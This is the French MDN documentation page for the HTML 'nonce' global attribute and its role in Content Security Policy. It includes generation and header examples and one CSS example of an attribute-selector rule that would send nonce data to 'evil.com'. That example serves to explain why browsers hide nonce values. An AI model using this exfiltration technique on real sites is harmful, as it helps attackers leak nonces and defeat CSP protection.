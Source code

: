 ```yaml
---
title: nonce
slug: Web/HTML/Global_attributes/nonce
translation_of: Web/HTML/Global_attributes/nonce
browser-compat: html.global_attributes.nonce
---
```


{{HTMLSidebar("Global_attributes")}}

L'[attribut universel](/fr/docs/Web/HTML/Global_attributes) **`nonce`** est un attribut de contenu qui définit un nonce cryptographique pouvant être utilisé par une [règle de sécurité du contenu (CSP)](/fr/docs/Web/HTTP/CSP) afin de déterminer si la récupération d'un élément sera autorisée ou non.

## Description

L'attribut `nonce` permet d'autoriser certains éléments spécifiques (comme un script ou un style donné) en évitant d'avoir à utiliser la directive [CSP](/fr/docs/Web/HTTP/CSP) `unsafe-inline` qui autoriserait _tous_ les scripts ou styles embarqués.

> **Note :** `nonce` doit uniquement être utilisé pour les cas où il n'est pas possible de faire autrement que d'utiliser un script ou un style embarqué non sécurisé. Si vous n'avez pas besoin de `nonce`, il ne faut pas l'utiliser. Si votre script est statique, vous pouvez utiliser une empreinte (<i lang="en">hash</i>) CSP à la place (voir les notes d'utilisation sur [les scripts embarqués non sécurisés](/fr/docs/Web/HTTP/Headers/Content-Security-Policy/script-src#scripts_embarqués_non_fiables).)
>
> Mieux vaut toujours exploiter les protections [CSP](/fr/docs/Web/HTTP/CSP) au maximum et donc éviter les nonces ou les scripts embarqués non sécurisés tant que possible.

### Utiliser `non` pour autoriser un élément &lt;script&gt;

Plusieurs étapes sont nécessaires afin d'utiliser un nonce pour autoriser un script embarqué.

#### Générer une valeur

Sur le serveur web, générez une chaîne de caractères encodées en base64 à partir de 128 bits de données générés par un générateur de nombres aléatoires cryptographique. Les nonces doivent être générés différemment à chaque chargement de la page. En Node.js par exemple, on pourra écrire&nbsp;:

```js
const crypto = require('crypto');
crypto.randomBytes(16).toString('base64');
// '8IBTHwOdqNKAWeKl7plt8g=='
```

#### Autoriser le script embarqué

Le nonce généré côté serveur peut ensuite être utilisé sur le script embarqué qu'on souhaite autoriser&nbsp;:

```html
<script nonce="8IBTHwOdqNKAWeKl7plt8g==">…</script>
```

#### Envoyer le nonce avec un en-tête CSP

Enfin, il faut envoyer la valeur du nonce dans un en-tête [`Content-Security-Policy`](/fr/docs/Web/HTTP/Headers/Content-Security-Policy) en préfixant la chaîne de caractères avec `nonce-`&nbsp;:

```http
Content-Security-Policy: script-src 'nonce-8IBTHwOdqNKAWeKl7plt8g=='
```

### Masquage et accès au nonce

Pour des raisons de sécurité, le contenu de l'attribut `nonce` est masqué (c'est une chaîne vide qui sera renvoyé).

```js example-bad
script.getAttribute('nonce'); // renvoie la chaîne vide
```

La propriété [`nonce`](/fr/docs/Web/API/HTMLElement/nonce) est la seule façon d'accéder aux nonces&nbsp;:

```js example-good
script.nonce; // renvoie la valeur du nonce
```

Un tel masquage empêche des acteurs malveillants d'exfiltrer les données du nonce grâce à des mécanismes qui permettent d'accéder aux attributs comme&nbsp;:

```css example-bad
script[nonce~=peuimporte] {
  background: url("https://evil.com/nonce?peuimporte");
}
```

## Spécifications

{{Specifications}}

## Compatibilité des navigateurs

{{Compat}}

## Voir aussi

- [`HTMLElement.nonce`](/fr/docs/Web/API/HTMLElement/nonce)
- [Stratégie de sécurité du contenu (<i lang="en">Content Security Policy</i>) (CSP)](/fr/docs/Web/HTTP/CSP)
- La directive CSP [`script-src`](/fr/docs/Web/HTTP/Headers/Content-Security-Policy/script-src)
